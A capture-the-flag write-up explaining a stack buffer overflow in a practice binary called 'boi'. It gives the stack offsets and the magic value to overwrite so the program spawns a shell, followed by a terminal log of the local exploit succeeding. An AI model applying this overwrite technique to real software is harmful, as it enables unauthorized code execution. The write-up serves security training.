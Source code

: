 # Boi Writeup

## Steps:
1. Notice an input is entered with a limit of `0x28` (`40`), which will likely be used for a buffer overflow. There is a second variable that, if equal to `0xcaf3baee` runs `run_cmd("/bin/bash")`

2. Look at the stack variable layout
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     00400659(W), 
                                                                                                   004006ca(R)  
             undefined4        Stack[-0x20]:4 local_20                                XREF[1]:     00400677(W)  
             undefined4        Stack[-0x24]:4 goal                                    XREF[2]:     0040067e(W), 
                                                                                                   004006a5(R)  
             undefined8        Stack[-0x30]:8 local_30                                XREF[1]:     00400667(W)  
             undefined8        Stack[-0x38]:8 input                                   XREF[2]:     0040065f(W), 
                                                                                                   0040068f(*)  
             undefined4        Stack[-0x3c]:4 local_3c                                XREF[1]:     00400649(W)  
             undefined8        Stack[-0x48]:8 local_48                                XREF[1]:     0040064c(W)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:0040054d(*), 004007b4, 
                                                                                          00400868(*)  
```
input is at `Stack[-0x38]` and the variable we want to change (renamed 'goal') is at `Stack[-0x24]`.
`0x38 - 0x24 = 0x14' which is 20 bytes in decimal. Since we can write 40 bytes, we can access and change 'goal'

3. Create a payload overwriting the 20 bytes from 'input' to 'goal' and set `goal = 0xcaf3baee`

4. Send payload to process


## Solution:
```
$ python3 ex_boi.py  
[+] Starting local process './boi': pid 37830
[*] Switching to interactive mode
Are you a big boiiiii??
$ w
 10:44:17 up  1:09,  2 users,  load average: 0.20, 0.61, 0.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali              -                09:33    1:11m  0.00s  0.03s lightdm --session-child 13 24
kali              -                09:33    1:11m  0.00s  0.53s /usr/lib/systemd/systemd --user
$ ls
boi  ex_boi.py
$ 
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './boi' stopped with exit code 0 (pid 37830)
[*] Got EOF while sending in interactive
```
